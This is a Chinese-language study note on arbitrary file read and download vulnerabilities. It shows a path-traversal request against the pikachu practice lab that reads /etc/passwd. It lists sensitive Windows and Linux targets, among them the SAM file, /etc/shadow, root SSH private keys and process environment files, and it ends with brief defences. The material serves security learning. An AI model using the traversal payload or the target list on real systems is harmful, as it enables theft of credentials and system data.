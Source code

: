 # 基础

任意文件读取、下载、删除，分析时还是**黑盒看功能点，白盒看函数**

**白盒流程：**

- 功能点抓包-寻代码文件-寻变量控制-构造测试
- 特定函数搜索-寻触发调用-构造Payload测试

- 特定函数搜索-寻触发调用-构造Payload测试

**黑盒探针:**

- URL参数名及参数值分析：

  参数名：英文对应翻译

  参数值：目录或文件名

- 功能点自行修改后分析：

​       文件下载，删除，读取等



看看 pikachu 靶场的任意文件读取的代码

<img src="图片\Snipaste_2023-02-04_09-27-47.png" alt="Snipaste_2023-02-04_09-27-47" style="zoom:80%;" />

可读取权限内的任意的文件， ../ 可能路径并非准确，../../../../../../../../../../../../../../../etc/passwd 可能很早就到了 etc/passwd ，多了几个

../ 是无所谓的

```
192.168.0.103/06/vul/unsafedownload/execdownload.php?filename=../../../../../../../etc/passw
d
```

## 常见的敏感文件

**windows 操作系统**

```
C:\boot.ini //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml //IIS 配置文件
C:\Windows\repair\sam //存储系统初次安装的密码
C:\Program Files\mysql\my.ini //Mysql 配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
C:\Windows\php.ini //php 配置信息
C:\Windows\my.ini //Mysql 配置信息
```

**Linux 系统常用系数**

```
/etc/passwd
/etc/shadow
/etc/hosts
/root/.bash_history //root 的 bash 历史记录
/root/.ssh/authorized_keys
/root/.mysql_history //mysql 的 bash 历史记录
/root/.wget-hsts
/opt/nginx/conf/nginx.conf //nginx 的配置文件
/var/www/html/index.html
/etc/my.cnf
/etc/httpd/conf/httpd.conf //httpd 的配置文件
/proc/self/fd/fd[0-9]*(文件标识符)
/proc/mounts
/porc/config.gz
/proc/sched_debug // 提供 cpu 上正在运行的进程信息，可以获得进程的 pid 号，可以配合后面需要pid
的利用
/proc/mounts // 挂载的文件系统列表
/proc/net/arp //arp 表，可以获得内网其他机器的地址
/proc/net/route //路由表信息
/proc/net/tcp and /proc/net/udp // 活动连接的信息
/proc/net/fib_trie // 路由缓存
/proc/version // 内核版本
/proc/[PID]/cmdline // 可能包含有用的路径信息
/proc/[PID]/environ // 程序运行的环境变量信息，可以用来包含 getshell
/proc/[PID]/cwd // 当前进程的工作目录
/proc/[PID]/fd/[#] // 访问 file descriptors，某写情况可以读取到进程正在使用的文件，比如access.log
# ssh
/root/.ssh/id_rsa
/root/.ssh/id_rsa.pub
/root/.ssh/authorized_keys
/etc/ssh/sshd_config
/var/log/secure
/etc/sysconfig/network-scripts/ifcfg-eth0
/etc/syscomfig/network-scripts/ifcfg-eth1
```

## 防御

1、过滤点(.)使用户在 url 中不能回溯上级目录
2、正则严格判断用户输入参数的格式
3、php.ini 配置 open_basedir 限定文件访问范围


